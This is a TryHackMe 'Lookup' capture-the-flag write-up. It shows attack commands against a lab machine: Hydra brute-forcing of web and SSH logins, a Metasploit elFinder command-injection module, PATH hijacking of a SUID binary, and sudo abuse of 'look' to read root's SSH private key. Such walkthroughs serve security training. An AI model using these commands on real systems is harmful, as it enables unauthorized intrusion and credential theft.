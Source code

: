 # TryHackMe - Lookup Room Writeup

## Overview

This is a detailed walkthrough of how I rooted the **Lookup** room on TryHackMe and captured both user and root flags. The room involved web application enumeration, brute force attacks, a command injection vulnerability, and privilege escalation through misconfigured binaries.

---

## Enumeration

I started the engagement with an `nmap` scan:

```bash
nmap -sC -sV -oN initial_scan.txt <target-ip>
```

The scan revealed two open ports:

- **22** (SSH)
- **80** (HTTP)

---

## Web Application Discovery

Accessing port 80 initially led nowhere. I suspected a virtual host configuration, so I added an entry to my `/etc/hosts` file:

```
<target-ip> lookup.thm
```

After updating the hosts file, I accessed `http://lookup.thm` and was greeted with a **login page**.

---

## Username Enumeration

Upon analyzing the login functionality, I noticed:

- Wrong **username + password** → "wrong username or password"
- Correct **username**, wrong password → "wrong password"

This behavior hinted at a potential for **user enumeration**.

Using **Burp Suite Intruder** with a **Sniper attack** and the `apache-user-enum_1.0.txt` wordlist, I discovered a valid user:

- **Username:** `jose`

---

## Password Brute-Forcing

I then used **Hydra** to brute force the password for `jose`:

```bash
hydra -l jose -P /usr/share/wordlists/rockyou.txt lookup.thm http-post-form "/login:username=^USER^&password=^PASS^:F=incorrect"
```

- **Password found:** `password123`

---

## File Manager Exploitation

After logging in, I was redirected to another subdomain: `files.lookup.thm`. I added it to `/etc/hosts` as well.

The site was running **elFinder**, a file manager.

### Exploitation using Metasploit

I loaded the following Metasploit module:

```
exploit/unix/webapp/elfinder_php_connector_exiftran_cmd_injection
```

Configured with:

- `RHOSTS`: `files.lookup.thm`
- `LHOST`: My machine's IP

This yielded a **Meterpreter session**.

---

## Privilege Escalation - Part 1 (User)

Inside the Meterpreter session:

- Navigated to `/home` and found the user folder `think`.
- Discovered `user.txt` but could not access it.

I then searched for SUID binaries:

```bash
find / -perm /4000 2>/dev/null
```

Found:

```bash
/usr/sbin/pwm
```

It was running with **root privileges**.

On execution, it appeared to run `id`. I exploited this by overriding the `id` command:

```bash
echo '#!/bin/bash' > /tmp/id
echo 'echo "uid=33(think) gid=33(think) groups=(think)"' >> /tmp/id
chmod +x /tmp/id
export PATH=/tmp:$PATH
/usr/sbin/pwm
```

This provided me with potential passwords. I used them to brute force SSH:

```bash
hydra -l think -P pwm_passwords.txt ssh://<target-ip>
```

- Successfully logged in as **think**
- Retrieved the **user flag** from `user.txt`

---

## Privilege Escalation - Part 2 (Root)

I checked `think`’s sudo privileges:

```bash
sudo -l
```

Output showed:

```bash
(ALL : ALL) NOPASSWD: /usr/bin/look
```

According to **GTFOBins**, `look` can be exploited to read arbitrary files. I retrieved the root SSH private key:

```bash
LFILE=/root/.ssh/id_rsa
sudo look '' "$LFILE"
```

Saved the output and changed permissions:

```bash
chmod 600 id_rsa
ssh -i id_rsa root@<target-ip>
```

Logged in as **root** and obtained the **root flag** from `root.txt`.

---

## Conclusion

The Lookup room involved a mix of:

- Web app reconnaissance
- Login enumeration
- Credential brute-forcing
- Remote code execution via a known exploit
- SUID binary path manipulation
- Sudo misconfigurations

Each step built on the last, and it was a great exercise in real-world exploitation chains.

---

*Thanks for reading!*
